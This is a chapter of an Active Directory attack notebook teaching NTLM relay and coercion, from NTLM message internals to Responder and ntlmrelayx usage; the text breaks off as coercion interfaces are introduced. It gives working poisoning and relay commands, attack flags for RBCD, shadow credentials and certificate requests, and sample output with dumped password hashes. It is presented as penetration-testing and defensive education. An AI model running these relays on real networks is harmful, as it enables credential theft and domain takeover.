







This is Chapter 10 of the Active Directory attack notebook — Notebook 18, and the chapter that ties the whole notebook together. Chapter 9 dissected ACL/ACE abuse and showed that the shortest path to Domain Admin is usually a *permission* written somewhere it should not have been — a `WriteDACL`, a `GenericAll`, an `msDS-AllowedToActOnBehalfOfOtherIdentity`. This chapter answers the question that ACL chapter left open: **what if you have no dangerous ACE, no crackable Kerberoast, no credential at all — just a foothold on the network?** The answer, astonishingly often, is that you make a privileged machine *authenticate to you*, then forward that authentication to a service that will act on it. That is NTLM relay, and the art of forcing the authentication is coercion.

Relay is the attack that refuses to die. It was first weaponised publicly in 2001 as SMB relay, "fixed" repeatedly for two decades, and yet in a modern default-configured Active Directory forest a low-privileged attacker can still coerce a Domain Controller into authenticating to an attacker-controlled host and relay that machine account into a full domain compromise — often in a single afternoon. The reason it survives is structural: NTLM is a challenge-response protocol that authenticates a *secret* but never authenticates the *channel* or the *server*. Nothing in a raw NTLM exchange says "this response is only valid for the server I meant to talk to." That one missing property is the entire vulnerability, and every mitigation you will meet in this chapter — SMB signing, LDAP channel binding, Extended Protection for Authentication — is a bolt-on attempt to add the binding NTLM never had.

We start at the absolute bottom, with the three NTLM messages and the maths of the Net-NTLM response, so that "relaying the AUTHENTICATE message" stops being a magic phrase and becomes something you can trace field by field. Then we build up: the tooling (Responder and ntlmrelayx from scratch), the coercion RPC surfaces (PetitPotam/MS-EFSRPC, the PrinterBug/MS-RPRN, DFSCoerce/MS-DFSNM, and the Coercer framework that automates them all), the relay targets (SMB, LDAP, and HTTP AD CS enrollment), and finally the flagship end-to-end lab that turns a single coerced DC authentication into Domain Admin via ADCS ESC8. We close with the one part that gets its own dedicated section — detection and defence — because relay is also one of the most *detectable* attacks in AD if you know exactly which events to watch.

## Why This Matters

NTLM relay is the connective tissue between "I'm on the network" and "I own the domain." It requires no password, no hash to crack, and frequently no user interaction — a coercion primitive makes a *computer account* authenticate, and computer accounts are powerful. A relayed DC machine account can be written into RBCD or used to dump the domain via DCSync; a relayed machine account against AD CS web enrollment yields a certificate that authenticates as that machine forever. Because the attack abuses protocols working exactly as designed, it sails past antivirus and most EDR, and because default installs of Active Directory Certificate Services and default SMB/LDAP signing postures remain relayable, it is one of the highest-value, lowest-noise techniques in the modern AD playbook.

It matters just as much from the blue side. Relay and coercion leave a very specific fingerprint — a machine account logging on from the wrong IP, an anonymous EFSRPC call to a DC, a certificate enrolled for a computer that never asked for one. A defender who understands the mechanics can detect the entire kill chain with a handful of Windows event IDs and can *eliminate* whole classes of it by enforcing signing and channel binding. This chapter is written so both sides can reproduce every step.

## Who This Is For

You should be comfortable with the earlier chapters of this notebook: Kerberos authentication (Chapter 5), delegation including RBCD (Chapter 8), and ACL abuse (Chapter 9). You do not need prior relay experience — we build NTLM from zero. If you have only ever run `ntlmrelayx` by copying a command off a blog and hoping, this chapter is designed to turn that cargo-cult into genuine understanding of every flag you pass and every packet on the wire.

A hard prerequisite before any of this touches a real network: **explicit written authorisation.** Coercion forces production Domain Controllers to make outbound authentications and relay them into privilege changes; it is unambiguously an intrusive attack. Everything below assumes a lab you own or an engagement with a signed scope. Build the lab in Part 12 and practise there.

## Part 1: NTLM From Zero — The Three Messages

Before you can relay authentication you must understand exactly what is being relayed. NTLM (NT LAN Manager) is a **challenge-response authentication protocol**. Unlike Kerberos, which issues time-stamped tickets from a trusted third party (the KDC), NTLM is a direct conversation between a client and a server, with the Domain Controller consulted only at the very end to verify a secret. It is carried *inside* other protocols — SMB, HTTP, LDAP, MSSQL, SMTP — as an application-layer authentication mechanism, usually negotiated through SPNEGO/GSSAPI. That "carried inside other protocols" property is precisely what makes cross-protocol relay possible.

An NTLM authentication is always exactly three messages, regardless of the transport carrying them:



The three messages, by their canonical names:

- **Type 1 — NEGOTIATE_MESSAGE.** The client announces it wants to do NTLM and advertises a set of flags (`NTLMSSP_NEGOTIATE_*`): does it support Unicode, does it support NTLMv2 session security, does it request signing, does it request sealing (encryption). The signature bytes at the start of every NTLM message are the literal ASCII `NTLMSSP\0`.
- **Type 2 — CHALLENGE_MESSAGE.** The server responds with an 8-byte random **server challenge** (also called the nonce) and, crucially, a **TargetInfo** structure (AV_PAIRs) carrying the server's NetBIOS and DNS names, the domain name, a timestamp, and — in hardened configs — a **channel-binding token** and **target SPN**. Hold onto TargetInfo; it is the field that anti-relay defences abuse to detect and break relays.
- **Type 3 — AUTHENTICATE_MESSAGE.** The client proves knowledge of the user's NT hash by computing a response over the server challenge, and returns it along with the username, domain, and workstation name. This message is the crown jewels: whoever holds a valid Type 3 built for a given challenge can present it to complete an authentication.

The verification at the end goes over **MS-NRPC (Netlogon)**: the server bundles the challenge and the client's response into a `NETLOGON_NETWORK_INFO` request (a "pass-through" logon) and asks a Domain Controller "is this response correct for this user over this challenge?" The DC recomputes and answers yes/no. Critically, **the DC never learns which server the client was actually talking to** — it only sees a challenge and a response. That blindness is the root of relay.

### NTLMv1 vs NTLMv2 — the response maths

There are two versions of the response, and the difference matters enormously for what you can *do* with a captured authentication.

**NTLMv1** computes the response essentially as DES encryptions of the *server challenge* keyed by the NT hash (split into three 7-byte DES keys). The client contributes nothing random. That means a captured NTLMv1 Net-NTLM response, if you control the server challenge (e.g. set it to a fixed value like `1122334455667788`), can be cracked into the NT hash itself using rainbow tables (crack.sh solves the DES for `1122334455667788` in about a day, or instantly for known keyspaces). NTLMv1 is a gift: capture it and you effectively recover the machine's NT hash.

**NTLMv2** is stronger. The response is an **HMAC-MD5**: the key is `NTLMv2Hash = HMAC-MD5(NT-hash, uppercase(username) + domain)`, and the response is `HMAC-MD5(NTLMv2Hash, server_challenge + blob)` where the *blob* contains a **client challenge** (client-supplied randomness), a timestamp, and the server's TargetInfo. Because the client mixes in its own randomness and the response is a keyed hash rather than a reversible cipher, a captured NTLMv2 response cannot be reversed to the NT hash — you can only try to *crack the password offline* by guessing plaintext, feeding it through the HMAC chain, and comparing. That is why Responder captures are "Net-NTLMv2 hashes" you crack with hashcat mode 5600, not usable hashes you can pass.

The single most important consequence for this chapter:

> **You cannot pass-the-hash a Net-NTLM response, but you *can relay* it.** A captured Net-NTLMv2 is only good for offline cracking or for *forwarding in real time* to another server before the challenge goes stale. Relay is what makes an un-crackable, un-passable response devastating.

The following table fixes the vocabulary that blogs routinely blur:

| Term | What it is | Can you pass it? | Can you crack it? | Can you relay it? |
|------|-----------|------------------|-------------------|-------------------|
| **NT hash** | MD4 of the UTF-16 password; stored in the SAM/NTDS | Yes (pass-the-hash) | Yes (offline, mode 1000) | N/A (it's the secret) |
| **Net-NTLMv1** | DES response over server challenge | No | Yes → recover NT hash (crack.sh) | Yes |
| **Net-NTLMv2** | HMAC-MD5 response over challenge + blob | No | Yes → recover *password* (mode 5600) | Yes |
| **Kerberos TGT/TGS** | Encrypted ticket from KDC | Pass-the-ticket | Kerberoast (TGS) | Generally not (different chapter) |

Relay lives entirely in that right-hand column. Everything else in this chapter is about (a) obtaining a Type 3 AUTHENTICATE message from a valuable victim and (b) forwarding it to a valuable target before it expires.

### Reading the messages on the wire

When you capture an NTLM exchange in Wireshark (filter `ntlmssp`), every message begins with the 8-byte signature `4e 54 4c 4d 53 53 50 00` (`NTLMSSP\0`) followed by a 4-byte message type (1, 2, or 3). Two structures inside carry everything the defences later hook into.

The **NEGOTIATE flags** (a 32-bit field present in all three messages) announce capabilities. The handful that matter for relay:

| Flag | Meaning | Relay relevance |
|------|---------|-----------------|
| `NTLMSSP_NEGOTIATE_UNICODE` | Strings are UTF-16 | Cosmetic; almost always set |
| `NTLMSSP_NEGOTIATE_SIGN` | Request message integrity (MIC) | If negotiated & enforced by target, cross-protocol relay breaks |
| `NTLMSSP_NEGOTIATE_SEAL` | Request confidentiality (encryption) | Same — signing/sealing is the anti-relay lever |
| `NTLMSSP_NEGOTIATE_ALWAYS_SIGN` | Force signing even if not otherwise agreed | Present when a host requires signing |
| `NTLMSSP_NEGOTIATE_EXTENDED_SESSIONSECURITY` | NTLMv2 session security (NTLM2) | Governs how the session key is derived |
| `NTLMSSP_NEGOTIATE_KEY_EXCH` | Exchange an encrypted session key | Where the signing key ultimately comes from |
| `NTLMSSP_NEGOTIATE_VERSION` | Include OS version block | Fingerprinting only |

The **AV_PAIRs (TargetInfo)** inside the Type 2 CHALLENGE — and echoed back inside the Type 3 blob — are the real battleground. Each pair is a `(type, length, value)` triple:

| AV_ID | Name | Contents | Why it matters |
|-------|------|----------|----------------|
| `0x0001` | `MsvAvNbComputerName` | Server NetBIOS name | Identifies the server |
| `0x0002` | `MsvAvNbDomainName` | NetBIOS domain | — |
| `0x0003` | `MsvAvDnsComputerName` | Server FQDN | — |
| `0x0004` | `MsvAvDnsDomainName` | DNS domain | — |
| `0x0006` | `MsvAvFlags` | Flags incl. **MIC present** bit | Enables the MIC integrity check |
| `0x0007` | `MsvAvTimestamp` | FILETIME | Anti-replay window on v2 |
| `0x0009` | `MsvAvTargetName` | Target **SPN** | **Service binding** (EPA) compares this |
| `0x000A` | `MsvAvChannelBindings` | MD5 of the TLS channel-binding token | **Channel binding** (EPA) — the LDAPS/HTTP anti-relay hook |

When you enforce Extended Protection, the target computes the *expected* `MsvAvTargetName` (its own SPN) and `MsvAvChannelBindings` (a hash of its TLS channel) and refuses the Type 3 if the client's echoed values don't match. A relay, sitting on a *different* channel with a *different* SPN, cannot produce matching values — which is exactly the mechanism by which EPA breaks the ESC8 and LDAPS relays discussed later. Seeing these fields in a packet capture turns the abstract "channel binding stops relay" into something you can point at byte-for-byte.

The **MIC (Message Integrity Code)** deserves special mention: it is an HMAC-MD5 over all three messages, stored in the Type 3, that prevents tampering with the negotiated flags (the "drop the SIGN flag" downgrade). The historical CVE-2019-1040 exploited MIC-removal to strip signing requirements mid-relay; ntlmrelayx's `--remove-mic` implemented it. It is patched now, but it is the reason you sometimes see relay writeups toggling MIC handling — a reminder that the anti-relay story is a decade of Microsoft plugging downgrade gaps one CVE at a time.

## Part 2: Why Relay Works — The Missing Server Authentication

Now the payoff. Because NTLM verification is blind to *which server* the client meant to talk to, an attacker who sits in the middle can act as a transparent proxy for the authentication:



Trace the con: the attacker never learns the victim's password or hash. The attacker simply **forwards the target's challenge back to the victim**, lets the victim compute a valid response to *that* challenge, and forwards the response on. Because the response is only bound to the challenge — never to the server's identity — the target accepts it as a legitimate authentication *from the victim*. The attacker rides that authenticated session and does whatever the victim is authorised to do on the target.

Three properties must hold for a relay to succeed, and every defence attacks one of them:

1. **You must obtain the victim's authentication.** Either the victim connects to you by accident (mistyped share name → LLMNR/NBT-NS poisoning) or you *coerce* it (Part 6). No inbound auth, no relay.
2. **The challenge must be forwarded intact and used in real time.** NTLMv2 blobs include a timestamp; stale responses are rejected. Relay is a live man-in-the-middle, not offline replay.
3. **The target must not require the authentication to be *bound* to the channel or the server.** This is the crux. If the target enforces **signing** (the session is cryptographically signed with a key derived from the auth, and a relayed session can't produce it correctly for the target) or **channel binding / Extended Protection** (the auth is tied to the TLS channel or the target SPN), the forwarded Type 3 is rejected.

Two rules of thumb fall straight out of this:

- **You cannot relay an authentication back to the machine it came from.** Since roughly MS08-068, Windows tracks outbound challenges and rejects a Type 3 that comes back to the originating host (the "reflection" attack). So coercing `DC01` and relaying to `DC01`'s own SMB is dead — but relaying `DC01` to `DC02`, or to a *different protocol/service* on `DC01` that does not share the anti-reflection state (historically HTTP AD CS), is very much alive.
- **The value of a relay equals the privilege of the victim on the target.** Relaying a low-priv user to SMB where they're a local admin gives a shell; relaying a **Domain Controller machine account** to LDAP or AD CS gives domain-wide power because `DC01$` is a high-privilege principal. This is why *coercing DCs* is the money move.

## Part 3: The Defences You Are Fighting — Signing, Channel Binding, EPA

You cannot reason about whether a relay will work without knowing the target's protection posture. Learn these four controls cold; the rest of the chapter constantly references "if signing is off / on."

### SMB signing

SMB signing appends a cryptographic signature (derived from the session key, which is derived from the authentication) to every SMB message. A relayed session cannot forge signatures that match what the target expects, so **if the target requires SMB signing, SMB relay to it fails.** The default posture is the whole game:

| Host role | SMB signing default (modern Windows) |
|-----------|--------------------------------------|
| Domain Controllers | **Required** (via Default Domain Controllers Policy) — SMB relay to a DC fails by default |
| Member servers / workstations | Historically **not required** (only "enabled if the client asks"); Windows 11 24H2 / Server 2025 began defaulting client-side signing on, but *server-side required* is still frequently off on members |

The practical takeaway: SMB→SMB relay usually works against **member servers and workstations** where signing is not required, not against DCs. `crackmapexec`/`nxc smb <subnet> --gen-relay-list targets.txt` (or `nxc smb <subnet>` and reading the `signing:False` column) enumerates exactly which hosts are relayable.

### LDAP signing and LDAP channel binding

LDAP has two independent protections, and confusing them costs you engagements:

- **LDAP signing** applies to plaintext LDAP (port 389). When required, the LDAP session must be integrity-signed. A cross-protocol relay (e.g. SMB→LDAP) cannot produce a session with the signing negotiated, so **if the DC requires LDAP signing, SMB→LDAP relay fails** with `STATUS_ACCESS_DENIED`-style rejections.
- **LDAP channel binding (CBT / EPA for LDAPS)** applies to LDAP-over-TLS (port 636, LDAPS). It binds the NTLM authentication to the specific TLS channel via a channel-binding token in the AV_PAIRs. When enforced, a relay presenting a Type 3 that was computed for a *different* channel is rejected. **If channel binding is enforced, LDAPS relay fails.**

The historically important gap Microsoft left open for years: default installs did **not** require LDAP signing and did **not** enforce channel binding, so SMB→LDAP relay worked out of the box. Hardening guidance (and, progressively, Windows defaults / the 2020 LDAP channel binding & signing push) closed this — but many production forests still have `LDAPServerIntegrity` un-enforced. Check with the registry value `HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters\LDAPServerIntegrity` (2 = required) and event ID 2889 (logs clients binding without signing), and the `LdapEnforceChannelBinding` value.

### Extended Protection for Authentication (EPA)

EPA is the general fix for cross-channel relay onto TLS services (HTTP, LDAPS). It binds the NTLM auth to the outer TLS channel (channel binding token) and/or to the service's SPN (service binding). The flagship relevance for this chapter: **AD CS web enrollment (`certsrv`) historically did not enforce EPA**, which is exactly what makes the ESC8 relay (Part 8) work. Microsoft's KB5005413 guidance and later patches push enabling EPA on AD CS HTTP endpoints; where it is not enabled, HTTP→AD CS relay stands.



Internalise this decision tree. Every relay you plan starts by asking "what is the target's protection state?" — and coercion (getting the auth) is worthless if you point it at a target that will reject the forwarded Type 3.

## Part 4: Tooling From Scratch — Responder and ntlmrelayx

Two tools do the heavy lifting. Both ship on Kali; teach yourself their internals here so the flags in later parts are not incantations.

### Responder — the poisoner and capturer

**What it is.** Responder (by Laurent Gaffié / Trustwave SpiderLabs) is a rogue responder for Windows name-resolution protocols. When a Windows host tries to resolve a name that DNS can't answer, it falls back to **LLMNR** (UDP 5355), **NBT-NS** (UDP 137), and **mDNS** (UDP 5353) — broadcast/multicast "does anyone know who `\\fileshare01` is?" queries. Responder answers "yes, that's me," the victim connects and tries to authenticate, and Responder captures the Net-NTLMv2. It also stands up rogue SMB, HTTP, LDAP, MSSQL, FTP, and WPAD servers to catch the auth on whatever protocol arrives.

**Install / location.** Pre-installed on Kali (`/usr/share/responder`), or `git clone https://github.com/lgandx/Responder`. Config lives in `Responder.conf`.

**Two modes you must distinguish:**

- **Capture mode (default):** Responder answers *and* completes the authentication itself, capturing the hash for offline cracking. Good for stealing crackable creds.
- **Relay mode:** you must turn Responder's own SMB and HTTP servers **OFF** so they don't grab the auth, and let `ntlmrelayx` be the thing that catches and forwards it. Edit `Responder.conf`:

```ini
[Responder Core]
SMB = Off
HTTP = Off
```

Poison with Responder (name resolution) while ntlmrelayx does the relaying. Core invocation:

```bash
# -I: interface to poison on; -w: WPAD rogue proxy; -d: answer DHCP; -v: verbose
sudo responder -I eth0 -wv
```

Realistic capture-mode output:

```
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.10.20.55
[SMB] NTLMv2-SSP Username : CORP\jsmith
[SMB] NTLMv2-SSP Hash     : jsmith::CORP:1122334455667788:9F1B...:0101000000000000...
[*] Skipping previously captured hash for CORP\jsmith
```

That hash goes to `hashcat -m 5600 hash.txt rockyou.txt`. But for *relay* we want the auth forwarded live, so we move to ntlmrelayx.

### ntlmrelayx.py — the relay engine

**What it is.** `ntlmrelayx.py` is the relay tool in the **Impacket** suite (Fortra/SecureAuth). It listens on SMB and HTTP (and can listen for other protocols), and when an NTLM authentication arrives it **relays** the three messages to one or more targets you specify, then runs an *attack module* over the resulting authenticated session (dump SAM, add a computer, write RBCD, request a certificate, open a SOCKS proxy, execute a command).

**Install.** Kali ships Impacket; otherwise `pipx install impacket` or `git clone https://github.com/fortra/impacket && cd impacket && pip install .`. The binaries are `impacket-ntlmrelayx` or `ntlmrelayx.py`.

**Core flags you will use constantly:**

| Flag | Meaning |
|------|---------|
| `-t <target>` | Single relay target, e.g. `ldap://dc02.corp.local`, `smb://10.10.20.30`, `http://ca01/certsrv/certfnsh.asp` |
| `-tf targets.txt` | File of targets (relay to whichever is relayable) |
| `-smb2support` | Support SMB2/3 clients (needed for modern Windows victims) |
| `-socks` | Instead of running one attack, hold the authenticated sessions open in a SOCKS proxy for reuse |
| `-i` | Interactive mode — drop to an SMB client shell on the relayed session |
| `--no-http-server` / `--no-smb-server` | Disable a listener you don't want |
| `-6` | Listen on IPv6 (for mitm6-style DNS takeover chains) |
| `-wh <host>` | WPAD host for authenticated proxy pop-ups (HTTP capture) |
| `-c '<cmd>'` | Command to execute on a successful SMB relay |

Attack-module flags (per target protocol):

| Flag | Effect |
|------|--------|
| `--escalate-user <user>` | LDAP relay: grant a user DCSync-like rights (if relayed principal can write the domain ACL) |
| `--delegate-access` | LDAP relay: configure RBCD so an attacker-controlled computer can impersonate on the relayed machine |
| `--add-computer <name> <pass>` | Create a computer account via LDAP (needs MachineAccountQuota > 0) |
| `--shadow-credentials` | LDAP relay: add a Key Credential (msDS-KeyCredentialLink) to the target for PKINIT auth |
| `--adcs` / `--template <name>` | HTTP→AD CS relay: request a certificate from the CA web endpoint (ESC8) |

A minimal SMB→SMB relay that dumps the SAM of any relayable host a poisoned user connects with:

```bash
sudo ntlmrelayx.py -tf smb_targets.txt -smb2support
```

Expected output when a relay lands:

```
[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Received connection from 10.10.20.55, attacking target smb://10.10.20.30
[*] Authenticating against smb://10.10.20.30 as CORP/JSMITH SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404ee...:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404ee...:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Done dumping SAM hashes for host: 10.10.20.30
```

You now have both halves of the machine: **Responder** (or a coercion primitive) gets the victim to authenticate, **ntlmrelayx** forwards that authentication to a target and weaponises the session. The rest of the chapter is choosing the right victim and the right target.

## Part 5: Getting the Authentication — Poisoning vs Coercion

There are two philosophies for making a victim authenticate to you.

**Opportunistic poisoning** waits for a mistake. LLMNR/NBT-NS/mDNS poisoning (Responder) catches users who fat-finger a share name; **mitm6** abuses default IPv6 (Windows prefers IPv6 and will happily accept a rogue DHCPv6 server that hands out the attacker as DNS, letting you answer WPAD and pull authentications). Poisoning is stealthy-ish and needs no special privilege, but it is *passive* — you get whatever wanders by, usually low-privileged users, and you wait.

**Coercion** is deterministic. Instead of hoping a victim mistypes, you send a specific host — ideally a **Domain Controller** — a remote procedure call whose documented, "legitimate" behaviour is to reach back out over SMB/HTTP to a UNC path *you* specify, authenticating as the machine account as it goes. You pick the victim, you pick the moment, and the victim is a high-value machine account. This is why the modern relay playbook is coercion-first.



The essence of every coercion primitive is the same trick: some RPC method takes a **file path or UNC path parameter**, and the server, running as `SYSTEM`/the machine account, tries to *access* that path. If you pass `\\attacker\share`, the server initiates an SMB (or, for some methods, HTTP via WebDAV) connection to the attacker and authenticates with its machine account. You have turned a benign "check this file" API into forced authentication.

## Part 6: The Coercion Arsenal — MS-EFSRPC, MS-RPRN, MS-DFSNM, MS-FSRVP

Four RPC interfaces are the workhorses. Each is a different named pipe / interface with a method that accepts an attacker-controlled path. Learn all four because they fail independently: a target may have the Print Spooler disabled (killing PrinterBug) but still be coercible via EFSRPC or DFS.

